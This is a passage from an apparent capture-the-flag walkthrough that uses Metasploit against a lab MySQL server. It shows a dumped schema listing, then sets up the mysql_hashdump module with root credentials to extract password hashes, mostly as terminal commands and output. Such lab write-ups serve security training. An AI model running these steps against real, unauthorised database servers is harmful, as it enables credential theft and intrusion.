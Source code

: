 ```
      ColumnType: text
TableName: x$waits_global_by_latency
    Columns:
    - ColumnName: events
      ColumnType: varchar(128)
    - ColumnName: total
      ColumnType: bigint(20) unsigned
    - ColumnName: total_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: avg_latency
      ColumnType: bigint(20) unsigned
    - ColumnName: max_latency
      ColumnType: bigint(20) unsigned

[*] 10.10.106.201:3306    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, run the exploit. What's the name of the last table that gets dumped?
*x$waits_global_by_latency*

```
┌──(kali㉿kali)-[~/Downloads]
└─$ msfconsole -q
msf6 > search mysql_hashdump

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/mysql/mysql_hashdump                   normal  No     MYSQL Password Hashdump

```
Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name? *auxiliary/scanner/mysql/mysql_hashdump *

```
msf6 > use 0
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), see https://github.co
                                        m/rapid7/metasploit-framework/wiki/Using-
                                        Metasploit
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one
                                         per host)
   USERNAME                   no        The username to authenticate as

msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.106.201
RHOSTS => 10.10.106.201
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run
```